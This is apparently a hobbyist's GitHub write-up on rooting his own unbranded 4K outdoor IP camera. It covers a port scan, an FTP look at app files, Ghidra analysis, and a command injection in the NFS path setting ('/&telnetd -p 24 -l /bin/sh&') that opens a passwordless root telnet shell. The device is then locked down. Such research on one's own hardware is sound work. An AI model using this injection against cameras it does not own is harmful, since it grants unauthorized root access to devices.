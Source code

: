 # Cheap 4K outdoor camera penetration Test &amp; Rooting

### Summary

I got this POE 4K Outdoor camera from amazon with the intent of not needing a dedicated NVR unit (since it has SD card support). I really liked it and ended up getting 4 total for the house. This thing has a nice bright image (even in night mode) and is fully featured with motion detection, event server notification, email, snapshot, mjpeg, rtsp+onvif, cloud/app and even has some support for other protocols (it can even send email alerts and upload ftp snapshots). Honestly the only things I can complain about this device are: 1-when the conditions/image are at the tipping poing between bright and low light the sensor (hardware) seems to flicker for a few seconds while trying to perform the white balance, and 2-I have found a camera frozen every now and then and had to restart it (not often and there's an auto-reboot feature to mitigate the issue).

With that I am going to keep the brand name anonumous as there's no reason to hack/root this device other than for fun (or educational purposes), but you can drop me a line if you'd like to know the brand name (it is not any known/major brand).

Here's what the camera looks like:

![camera](https://raw.githubusercontent.com/guino/600204002-IPC-M0402/main/img/camera.png)

#### Penetration test and rooting

The first thing I did was to check what ports are open in the device. From the settings web page of the device I already expected to see some open ports which can be toggled on/off in the settings. Here's what I got:

```
$ nmap 10.10.10.128
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 16:00 EST
Nmap scan report for Fence (10.10.10.128)
Host is up (0.0041s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
23/tcp    open  telnet
80/tcp    open  http
554/tcp   open  rtsp
711/tcp   open  cisco-tdp
1935/tcp  open  rtmp
6000/tcp  open  X11
8000/tcp  open  http-alt
49152/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

I was hoping to see telnet enabled so I could try the many published user:password combinations and gain access to the device, and while it was opened all my attempts to find a valid user:password combination were a failure.

So the next thing I noticed is that port 21 (ftp) was opened, but why would anyone need to ftp **into** the device ? I guess they made that so you could download video files from the SD card without having to physically get the SD card out (another feature?) -- In fact I was able to see that the SD card is mounted under /mnt/mmc when a card is inserted. 

I then tried accessing /etc and other system directories even using tricks like "../" without success.

The ftp only allows access to what's under /mnt and what caught my attention was that there was a /mnt/app directory which showed me the following:

```
$ ftp 10.10.10.128
Connected to 10.10.10.128.
220 Service ready for new user.
Name (10.10.10.128:wagner): admin
331 User name okay, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
ftp> cd /mnt/app
250 Requested file action okay, completed.
ftp> ls -la
200 Command okay.
150 File status okay; about to open data connection.
drwxr--r--  11 root root        0 Dec 31 19:00 .
drwxr--r--   7 root root       86 Apr 06 22:50 ..
-rwxr--r--   1 root root  1034800 Jul 14 03:43 mt7601Usta.ko
-rwxr--r--   1 root root  3285864 Jul 14 03:43 bvipcam
drwxr--r--   2 root root        0 Jul 14 03:43 pppoe
-rwxr--r--   1 root root    20696 Jul 14 03:43 detectsns
-rwxr--r--   1 root root    11080 Jul 14 03:43 reset
-rwxr--r--   1 root root    26880 Jul 14 03:43 softap.pcm
drwxr--r--   2 root root        0 Jul 14 03:43 lib
-rwxr--r--   1 root root     3700 Jan 06 17:06 start_ipcam.sh
-rwxr--r--   1 root root    24064 Jul 14 03:43 alarm.pcm
drwxr--r--   3 root root        0 Jul 14 03:43 config
-rwxr--r--   1 root root    10336 Jul 14 03:43 daemonserv
-rwxr--r--   1 root root    23540 Jul 14 03:43 cmdserv
-rwxr--r--   1 root root      662 Dec 31 19:00 system.conf
drwxr--r--   2 root root        0 Jul 14 03:43 sensor
-rwxr--r--   1 root root   181128 Jul 14 03:43 cfg80211.ko
-rwxr--r--   1 root root       43 Jul 14 03:43 version.conf
drwxr--r--   2 root root        0 Jul 14 03:43 https_env
drwxr--r--   2 root root        0 Jul 14 03:43 font
drwxr--r--   6 root root        0 Jul 14 03:43 www
-rwxr--r--   1 root root      840 Jul 14 03:43 checkusb.sh
drwxr--r--   2 root root        0 Jul 14 03:43 sysconf
226 Closing data connection.
ftp> 
```

I promptly downloaded the start_ipcam.sh script and found that this script started telnet and also started the bvipcam application which seemed to be the main application for the camera.

I then modified the start_ipcam.sh to start a passwordless telnet and tried to upload it back in place of the existing one, result: FAIL. Not only I can't overwrite the script but I can't upload anything to that directory (it seems the ftp server prevents uploading anything).

Since I can't modify anything with ftp, I figured I'd download the bvipcam application and have a look at it in ghidra to see if there's anything I can exploit.

In ghidra I found that the bvipcam manages the ftp server and web server. I also found what seemed to be a function for executing system/shell commands and went through the references to see if there was anything executing shell commands that I could inject my own command.

In the function that handles NFS mounting I found this (I named a few functions to make it clear):

![ghidra](https://raw.githubusercontent.com/guino/600204002-IPC-M0402/main/img/ghidra.png)

In the above we can see that they prepare the **mount** command using the NFS server IP and mount point without checking for any special characters (the mount point itself is fixed under /mnt/nfs). So I went into the device's web settings to look at the settings:

![nfs](https://raw.githubusercontent.com/guino/600204002-IPC-M0402/main/img/nfs.png)

While I am using NFS I can spare a few minutes without recording to try and gain access. 

The first thing I noticed is that the length of each setting is limited to 32 characters so I can't put anything big, but should be enough to open a passwordless telnet. 

When I tried to type ```;``` the page immediately removed it (which we may be able to bypass by making the request to save settings directly), in any case ```&``` was not filtered out so I entered this NFS remote path: ```/&telnetd -p 24 -l /bin/sh&```.

When I hit save I did not see telnet open and the device seemed like it stopped working (settings web page went down), so I rebooted the device hoping I didn't brick it somehow. The device not only came back up but the settings were still saved and this time I had a passwordless telnet available on port 24:

```
$ telnet 10.10.10.128 24
Trying 10.10.10.128...
Connected to 10.10.10.128.
Escape character is '^]'.

~ # 
```

Success! Root access is available and I can modify/play with it all I want which in this case really is just modify /etc/passwd so it doesn't have a default root password that someone else knows while I don't. I wrote a modified /mnt/app/passwd file (which is writeable/persistent under telnet) and edited the start_ipcam.sh script to include ```mount --bind /mnt/app/passwd /etc/passwd``` and restored my NFS settings so now I got a working/protected/rooted device which only I can access (specially since I disabled P2P/Cloud from the web settings).
